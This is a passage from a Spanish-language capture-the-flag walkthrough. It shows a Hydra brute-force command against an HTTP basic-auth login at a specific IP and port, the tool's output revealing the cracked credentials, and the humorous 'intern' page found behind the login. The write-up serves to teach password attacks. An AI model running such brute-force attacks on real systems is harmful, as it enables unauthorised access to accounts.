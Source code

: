 Como la lista de usuarios es corta, se propone invertir mediante `-u` el orden de anidamiento, de manera que se prueban todas las claves con el primer usuario, después todas con el segundo y así sucesivamente si hubiera más. El parámetro `-f` termina la ejecución tras el primer resultado positivo. Además, se amplía el número de tareas predeterminado con `-t 64`; de nuevo, se recomienda **no hacer en casa sin una supervisión especializada**.

```text
$ hydra -L myusers -P 10k-most-common.txt -u http-get://34.253.120.147:1729/ -f -t 64
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-17 09:36:07
[DATA] max 64 tasks per 1 server, overall 64 tasks, 20000 login tries (l:2/p:0), ~10000 tries per task
[DATA] attacking http-get://34.253.120.147:1729/
[STATUS] 2357.00 tries/min, 2357 tries in 00:00h, 0 to do in 01:00h, 17643 active
[1729][http-get] host: 34.253.120.147   login: becario   password: ricardo
[STATUS] attack finished for 34.253.120.147 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-17 09:37:47
```

No sorprende en absoluto conseguir el mismo resultado.

```text
[1729][http-get] host: 34.253.120.147   login: becario   password: ricardo
```

## Las llaves del becario

La página índice protegida con las credenciales encontradas presenta el siguiente aspecto:

![La dura vida del becario](dura_vida_de_becario.png)

Sin duda, el bisoño protagonista posee grandes cualidades para la escritura.

> **Principales escollos**
>
> **Durante el desenvolvimiento de sus tareas, los becarios se enfrentan a duros condicionantes a los que deben sobreponerse para superar su bautismo y ser aceptados por el resto del clan**
>
> - Elaboración del café
>
>     La correcta elaboración de esta bebida resulta crucial. Sin el consumo de esta sustancia, los IT Manager no podrían supervisar correctamente la ingente cantidad de variables que a diario manejan.
>
> - Elaboración de informes
>
>     Una tarea tradicionalmente denostada por el clan, pero de vital importancia. Los humanos no-IT, también llamados muggles, a menudo necesitan códigos de colores y amables grafismos para alcanzar a intuir la profundidad de la información.